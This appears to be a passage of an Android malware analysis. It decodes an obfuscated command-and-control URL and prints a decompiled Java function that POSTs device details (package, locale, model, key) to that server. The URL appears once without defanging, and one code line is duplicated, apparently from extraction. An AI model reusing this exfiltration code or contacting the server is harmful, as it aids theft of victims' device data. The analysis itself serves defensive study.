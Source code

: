 This function prepares and sends an http request.
This function is confusing because it uses two variables called effluvias and effluvias2 with values “alt” and “ky” respectively, ( Effluvias is the same name as the function that is used to decipher strings). 
A URL is constructed by concatenating the result of the Uriiah method applied to the result of the bedamned method with the key “min” and the string “callnew.php”.
On the Shared Preference we can see

```java

<string name="min">zH7cPW3ZEHjVTG9k7cxAEFPMXyfMjJ9RsvkyHSqCvNV5HAZ/FWvMgQ==</string>
```
Deciphered with Uriiah function give us:
https://yukoramparata.top/zamra/aaa/ , adding the string “callnew.php”: 
https://yukoramparata[.]top/zamra/aaa/callnew[.]php


The rarefeatured function appears to prepare and send an HTTP POST request including a set of data retrieved from the SharedPreference

```java

    public static void rarefeatured(Context context, String e) {
    public static void rarefeatured(Context context, String e) {
        String effluvias = ("alt");
        String effluvias2 = ("ky");
        try {
            HashMap<String, String> p = new HashMap<>();
            p.put(effluvias2, bedamned(context, effluvias2));
            p.put(("tg"), hagiography(bedamned(context, ("tag"))));
            p.put(("cy"), bedamned(context, ("locale")));
            p.put(("model"), bedamned(context, ("smm")));
            p.put(("nw"), ("true"));
            p.put(effluvias, bedamned(context, effluvias));
            p.put(("eys"), e);
            p.put(("rpn"), bedamned(context, ("psv")));
            veepees.undissuadably(context, Uriiah(bedamned(context, ("min"))) + ("callnew.php"), p);
        } catch (Exception e2) {
        }
    }
```


|alt    | com.melting.mantaught |
|tg     | 0401EN                |
|cy     | en                    |
|model  | 13 A50                |
|nw     | true                  |
|ky     | 0hh2fpkr5zt72         |
